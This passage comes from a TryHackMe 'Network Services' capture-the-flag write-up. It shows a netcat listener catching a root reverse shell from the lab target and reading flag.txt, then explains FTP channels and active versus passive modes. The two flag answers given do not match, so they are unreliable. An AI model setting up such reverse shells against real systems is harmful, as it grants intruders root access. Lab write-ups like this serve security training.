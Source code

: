`No answer needed`

1.  Success! What is the contents of flag.txt?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.221.224 56944
id
uid=0(root) gid=0(root) groups=0(root)
ls
flag.txt
cat flag.txt
THM{V0N318*****y0u_g0t_th3_t3ln3t_fl4g}
```

`THM{V0N318*****y0u_g0t_th3_t3ln3t_fl4g12**123:))}`

## Task 8 Understanding FTP

**What is FTP?**

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

**How does FTP work?**

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.

**Active vs Passive**

The FTP server may support either Active or Passive connections, or both.

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it.
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.

This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.

**More Details:**

You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: [https://www.ietf.org/rfc/rfc959.txt](https://www.ietf.org/rfc/rfc959.txt). The IETF is one of a number of standards agencies, who define and regulate internet standards.

